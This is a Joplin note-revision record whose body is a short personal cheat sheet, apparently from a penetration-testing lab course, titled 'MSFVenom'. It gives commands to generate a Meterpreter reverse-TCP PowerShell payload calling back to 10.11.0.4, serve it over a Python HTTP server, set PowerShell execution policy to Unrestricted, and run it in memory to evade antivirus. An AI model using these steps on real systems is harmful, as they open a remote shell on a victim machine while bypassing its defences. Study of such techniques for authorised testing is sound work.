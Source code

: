 id: 5f0a5140865243048a516e5cd3462796
parent_id: 
item_type: 1
item_id: f1cbbe07c0c44adb91ce6010b852b46f
item_updated_time: 1642644880971
title_diff: "[{\"diffs\":[[1,\"MSFVenom\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":8}]"
body_diff: "[{\"diffs\":[[1,\"<ins>Use In-memory Virtual Allocation and execute payload within the allocated memory</ins>\\\n\\\nThis is non-detectable by the AV; Uses the in-memory injection\\\n\\\n- Find the code in ~/tools/Avevade.ps1\\\n    \\\n- Generate the payload:\\\n    \\\n    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell\\\n        \\\n- Paste the payload into the variable 'sc'\\\n    \\\n    - python -m SimpleHTTPServer 80 (Transfer the file)\\\n        \\\n- Set the execution policy to unrestricted:\\\n    \\\n    - Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser\\\n        \\\n- On Kali, open handler (See below)\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":611}]"
metadata_diff: {"new":{"id":"f1cbbe07c0c44adb91ce6010b852b46f","parent_id":"c26fa1723bb34bf18d91cd4b533bf7b3","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-20T02:17:11.291Z
created_time: 2022-01-20T02:17:11.291Z
type_: 13